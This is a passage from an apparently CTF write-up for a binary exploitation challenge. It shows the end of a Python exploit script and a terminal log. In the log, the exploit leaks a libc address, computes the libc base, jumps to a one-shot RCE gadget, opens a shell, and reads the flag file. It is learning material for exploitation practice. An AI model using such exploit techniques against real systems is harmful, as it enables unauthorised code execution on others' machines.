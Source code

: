 ```python
    s.send(q(system_addr))
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And in action:

```bash
bas@tritonal:~/bin/ccc/phobos$ python poc2.py 
> What's your name?
 
Hi, a
<randomjunk>
> Please input the length of your message:
 
> Please enter your text:
 
> Thanks!

[+] Leaked puts(): 0x7fa6830dda30
[+] libc base addr: 0x7fa68306d000
[+] sending one shot rce addr (0x7fa6830b12aa)
id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
cat flag.txt
CAMP15_0ae754f04a8782cba9a7ec2c69dc1274
```

It's quite nice to solve a 400 point challenge only to find out we can use nearly the same solution for an additional 300 points!

